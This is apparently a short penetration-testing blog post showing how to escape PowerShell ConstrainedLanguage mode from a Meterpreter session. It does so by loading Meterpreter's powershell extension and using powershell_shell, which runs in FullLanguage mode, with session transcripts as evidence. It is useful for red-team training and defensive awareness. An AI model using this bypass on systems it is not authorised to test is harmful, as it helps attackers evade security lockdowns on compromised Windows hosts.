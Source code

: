 ```yaml
---
title: "Powershell Constrained Mode Bypass With Meterpreter"
date: 2021-05-29T20:52:32-04:00
year: "2021"
month: "2021/05"
toc: false
comments: true
images:
tags:
draft: false
---
```


The powershell extension for meterpreter likely isn't a well known feature of
the meterpreter shell. Most pentesters are likely to just run powershell from
the command shell that meterpreter launches with the `shell` command instead
of loading the extension. But this can be problematic for environments that
lock down Powershell.

<!--more-->

As can be seen below, we have landed a meterpreter instance and dropped into a
command shell. We'd like to run some tools in Powershell, but after checking
the LanguageMode, we can see that we're in ConstrainedLanguage mode. Since
this blocks the tools we want to run, we exit the shell.

```
meterpreter > shell
Procdess 39630 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19042.985]
(c) Microsoft Corporation. All rights reserved.

C:\Users\victim> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\victim> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
PS C:\Users\victim> exit
exit

c:\Users\victim>exit
exit
```

The powershell extension in meterpreter doesn't provide a shell that is as
clean as the command shell built in to meterpreter and I've had issues trying
to exit it. But it loads an unmanaged Windows PowerShell Runspace which will
not be subject to the LanguageMode from the powershell executable.

Below we load the powershell extension, then drop into a shell using the new
`powershell_shell` command available to us. As can be seen, checking the 
LanguageMode now shows that we are in FullLanguage mode and can now load tools
that require this mode for operation.

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > $ExecutionContext.SessionState.LanguageMode
FullLanguage
PS > 
```